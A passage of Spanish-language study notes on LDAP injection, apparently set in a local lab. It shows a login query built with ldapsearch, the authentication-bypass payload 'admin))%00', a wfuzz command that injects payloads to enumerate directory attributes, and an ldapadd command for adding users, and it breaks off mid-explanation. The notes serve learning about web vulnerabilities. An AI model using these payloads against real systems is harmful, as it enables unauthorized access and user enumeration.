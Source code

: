 ```shell
ldapsearch -x -H ldap://{ip} -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin)(userPassword=*))'
```

- ## Manipulación de la query original

### Tengamos en cuenta que los campos que se completan son inyectados en los parametros de busqueda de `ldapsearch`, por lo que podriamos intentar modificar la query original de busqueda

```shell 
ldapsearch -x -H ldap://{ip} -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=%s)(userPassword=%s))'
```

### Que pasaria si donde ingresarmos el `username=%s` en la web, que hace referencia al apartado de `(&(cn=%s))`en **ldapsearch**, ingresamos el valor `admin))%00`? Lo que pasaria es que estariamos cerrando manualmente la query original a la par que ingresando un null byte (**%00**) para evitar que se lea la segunda condición de `(userPassword=%s))`. 

```shell
# De alguna manera la query quedaria de la sig manera: 
ldapsearch -x -H ldap://{ip} -b dc=example,dc=org -D "cn=admin,dc=example,dc=org" -w admin '(&(cn=admin))%00'#)(userPassword=*))'
```

- ## Enumeración de atributos mediante query maliciosa

### Una vez que sabemos que los campos son vulnerables a estas inyecciones, se nos podria ocurrir realizar scripts en python para enumerar usuarios, jugar con una de las [[⚒ Herramientas ⚒]] com **wfuzz** o **gobuster** para aplicar numeración de los atributos, entre otras cosas.

```shell
wfuzz -c -t 200 --hs=200 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d "user_id=admin)(FUZZ=*))%00&password=*&login=1&submit=Submit" "http://localhost:8888"
```

### Por lo que la query maliciosa sería la sig. `admin)(FUZZ=*))%00`. 

### Tambien podriamos crear usuarios (En este caso, debido que tenemos las credenciales del usuario admin de LDAP y estamos en un escenario de ejemplo), con el comando `ldapadd -x -H ldap://{ip} -D "cn=admin,dc=example,dc=org" -w {password} -f {file_ldif}`. 

### Un archivo ldif tiene la definición de (en este caso) la estructura de un usuario, lo cual podria ser algo similar a lo sig.: 
